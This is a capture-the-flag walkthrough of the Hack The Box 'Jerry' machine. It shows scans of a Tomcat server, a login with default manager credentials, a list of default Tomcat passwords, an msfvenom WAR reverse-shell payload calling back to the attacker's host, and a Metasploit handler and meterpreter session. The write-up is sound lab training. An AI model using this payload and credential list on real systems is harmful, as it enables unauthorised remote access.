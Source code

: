 ```yaml
---
published: false
---
```

![htb_jerry.png]({{site.baseurl}}/_posts/htb_jerry.png)


### Htb - Writeup

## 1. Enumeration

Nmap
```ruby
# nmap -sC -sV -oA htb 10.10.10.95

Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-17 07:13 EDT
Nmap scan report for 10.10.10.95
Host is up (0.19s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```
* Discovered Apache Tomcat/7.0.88 on port 8080

Nikto
```ruby
# nikto -h 10.10.10.95:8080

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1525691762000
+ OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.

```

* Discovered Apache Tomcat and JSP vulnerability 

## 2. Navigate to 10.10.10.95:8080
![8080.jpg]({{site.baseurl}}/_posts/8080.jpg)

access: http://10.10.10.95:8080/manager/html "Manager App" 

Username: tomcat
Password: s3cret

```ruby
list of Apache Default Credentials 
Username Password
admin 	password
admin 	
admin 	Password1
admin 	password1
admin 	admin
admin 	tomcat
both 	tomcat
manager manager
role1 	role1
role1 	tomcat
role 	changethis
root 	Password1
root 	changethis
root 	password
root 	password1
root 	r00t
root 	root
root 	toor
tomcat 	tomcat
tomcat 	s3cret
tomcat 	password1
tomcat 	password
tomcat 	
tomcat 	admin
tomcat 	changethis
```
source: https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown


## 3. Attack Vector
utilizing a specialied WAR file we can upload to the server and access a .jsp that will allow access to the system

![war.jpg]({{site.baseurl}}/_posts/war.jpg)

Crafting WAR file:
tools: msfvenom
```ruby
msfvenom -p payload/windows/shell/reverse_tcp  LHOST=10.10.13.75 LPORT=9000 -f war -o war.war
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of war file: 52304 bytes
Saved as: war.war
```
extract file:
```ruby
jar -xvf war.war 
created: META-INF/
inflated: META-INF/MANIFEST.MF
created: WEB-INF/
inflated: WEB-INF/web.xml
inflated: yewdmyrhyi.jsp
```
* Extracted .jsp will be coded by msfvenom and will change. The war.war will be uploaded via the deployment section. Before accessing .jsp creation of listener is required.

# 4. Setup Listener
tool: msf
```ruby
msfdb run
```
* quick way to start postgres and metasploit framework

after initilzation:
```ruby
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST LOCALIP
set LPORT 9000
exploit
```

Access: http://10.10.10.95/war/yewdmyrhyi.jsp
* wait for reverse tcp connection

```ruby
[*] Started reverse TCP handler on 10.10.13.75:9002
[*] Sending stage (179779 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.13.75:9002 -> 10.10.10.95:49200) at 2018-10-17 06:52:41 -0400
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > dir
Listing: C:\apache-tomcat-7.0.88
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  57896  fil   2018-05-07 07:16:00 -0400  LICENSE
100666/rw-rw-rw-  1275   fil   2018-05-07 07:16:00 -0400  NOTICE
100666/rw-rw-rw-  9600   fil   2018-05-07 07:16:00 -0400  RELEASE-NOTES
100666/rw-rw-rw-  17454  fil   2018-05-07 07:16:00 -0400  RUNNING.txt
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  bin
100666/rw-rw-rw-  0      fil   2018-10-17 13:38:59 -0400  cd
40777/rwxrwxrwx   4096   dir   2018-06-18 23:47:35 -0400  conf
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  lib
40777/rwxrwxrwx   8192   dir   2018-10-17 13:29:45 -0400  logs
100666/rw-rw-rw-  113    fil   2018-10-17 13:38:58 -0400  shell
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:19 -0400  temp
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:15 -0400  webapps
40777/rwxrwxrwx   0      dir   2018-06-18 21:34:12 -0400  work
```

Navigate to flag: C:\Users\Administrator\Desktop\flags
read file with `meterpreter > cat "2 for the price of 1.txt"`

## 5. Final Thoughts
As a beginner level box there is a wide assortment of things that can be learned. From discovering/exploiting the PUT .jsp within Apatche Tomcat, along with the complexity of standard CVE scripts were simply unsable due to the nature of how the server was set up. All these tasks could have been streamlined within the Metasploit Framework but it's best practice to use msfvenom and craft payloads while understanding how exactly they will function.


-exec@will

## 6. Further Learning/Sources:

http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html
https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
https://www.windows-commandline.com/read-file-from-command-line/



